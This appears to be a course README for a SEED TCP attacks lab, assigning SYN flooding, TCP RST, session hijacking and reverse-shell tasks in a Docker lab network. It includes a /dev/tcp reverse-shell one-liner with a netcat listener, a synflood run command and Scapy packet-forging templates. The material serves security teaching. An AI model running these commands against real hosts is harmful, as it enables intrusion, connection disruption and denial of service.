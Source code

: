 # TCP Attacks Lab

## Overview

This lab involves various TCP attacks, including SYN Flooding, TCP RST attacks, TCP Session Hijacking, and creating a Reverse Shell. Each task requires specific steps and screenshots to demonstrate the attacks and their mitigation techniques.

## Lab Setup

1. **Download the Lab Setup:**
   - [Lab Setup ZIP File](https://seedsecuritylabs.org/Labs_20.04/Networking/TCP_Attacks/)
   - [Docker Manual](https://github.com/seed-labs/seed-labs/blob/master/manuals/docker/SEEDManual-Container.md)

2. **Ensure Docker is Set Up:**
   - Follow the instructions in section 2.1 of the [Lab PDF](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf) to set up your environment.

## Tasks

### Q1 Task 1: SYN Flooding Attack

**Objective:** Demonstrate a SYN Flooding attack and the effect of SYN cookies.

1. **SYN Flooding Overview:**
   - SYN flooding is a Denial of Service (DoS) attack where attackers send many SYN requests to a victim’s TCP port without completing the handshake.

   ![SYN Flooding Attack Illustration](images/tcp2.png)

2. **Queue Size Check:**
   - Use the command `sysctl -q net.ipv4.tcp_max_syn_backlog - 128` to check and set the queue size.

3. **SYN Cookie Countermeasure:**
   - Enable/Disable SYN cookies using:
     ```bash
     sudo sysctl -a | grep syncookies
     sudo sysctl -w net.ipv4.tcp_syncookies=0 # Turn off SYN cookies
     sudo sysctl -w net.ipv4.tcp_syncookies=1 # Turn on SYN cookies
     ```
   - Note: These commands don’t work inside the container; they should be set in `docker-compose.yml` if needed.

4. **Launching the Attack:**
   - Compile and run the attack using:
     ```bash
     gcc -o synflood synflood.c
     synflood 10.9.0.5 23
     ```

5. **Observations:**
   - Compare the results using `netstat -nat` before and during the attack.
   - Test connectivity from another machine using telnet.

6. **Screenshots:**
   - **SYN cookies off, Attack in progress:** [Screenshot](TCP_Attack_without_the_SYN_cookie_mechanism.png)
   - **SYN cookies on, Attack in progress:** [Screenshot](TCP_Attack_with_the_SYN_cookie_mechanism.png)

### Q2 Task 2: TCP RST Attacks on Telnet Connections

**Objective:** Launch a TCP RST attack to break an established telnet connection.

1. **Manual Attack:**
   - Use Scapy to conduct the attack. Replace placeholders with actual values from Wireshark:
     ```python
     #!/usr/bin/env python3
     from scapy.all import *
     ip = IP(src="@@@@", dst="@@@@")
     tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
     pkt = ip/tcp
     ls(pkt)
     send(pkt, verbose=0)
     ```

2. **Screenshots:**
   - **Python/Scapy Code:** [Screenshot](Q2_Python_Scapy_code.png)
   - **Wireshark Frames:**
     - Frame showing SEQ/ACK numbers: [Screenshot](Q2_TCP_RST_ATTACK_Wireshark_1.png)
     - Frame showing TCP RST attack: [Screenshot](Q2_TCP_RST_ATTACK_Wireshark_2.png)

3. **Optional Bonus:**
   - Automate the attack using Scapy’s `sniff()` function. Submit a PDF with details of automation.

### Q3 Task 3: TCP Session Hijacking

**Objective:** Hijack an existing TCP connection and inject malicious commands.

1. **Manual Attack:**
   - Use Scapy to perform the session hijacking. Replace placeholders with actual values from Wireshark:
     ```python
     #!/usr/bin/env python3
     from scapy.all import *
     ip = IP(src="@@@@", dst="@@@@")
     tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
     data = "@@@@"
     pkt = ip/tcp/data
     ls(pkt)
     send(pkt, verbose=0)
     ```

2. **Screenshots:**
   - **Python/Scapy Code:** [Screenshot](Q3_Python_Scapy_code.png)
   - **Wireshark Frames:**
     - Frame showing SEQ/ACK numbers: [Screenshot](Q3_TCP_Session_Hijacking_Attack_before.png)
     - Frame showing injected code: [Screenshot](Q3_TCP_Session_Hijacking_Attack_after.png)

3. **Optional Bonus:**
   - Automate the attack using Scapy’s `sniff()` function. Submit a PDF with details of automation.

### Q4 Task 4: Creating Reverse Shell using TCP Session Hijacking

**Objective:** Use TCP session hijacking to set up a reverse shell.

1. **Reverse Shell Setup:**
   - The reverse shell command example:
     ```bash
     /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1
     ```
   - Netcat setup on the attacker machine:
     ```bash
     nc -lvp 9090
     ```

2. **Screenshots:**
   - **Python/Scapy Code:** [Screenshot](Q4_Python_Scapy_code.png)
   - **Reverse Shell Connection:** [Screenshot](Q4_reverse_shell.png)

3. **Optional Bonus:**
   - Automate the attack and setup. Submit a PDF with details of automation.

## Submission Instructions

- Follow the [instructions](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf) in the PDF document for submission.
- Submit screenshots showing the VM screen with date and time for each attack.

## Due Dates

- **Normal Due Date:** 11 Feb
- **Earliest Acceptance Date:** 6 Feb (+1% bonus per day, up to +5% bonus for five days early)
- **Latest Acceptance Date:** 21 Feb (-10% points)
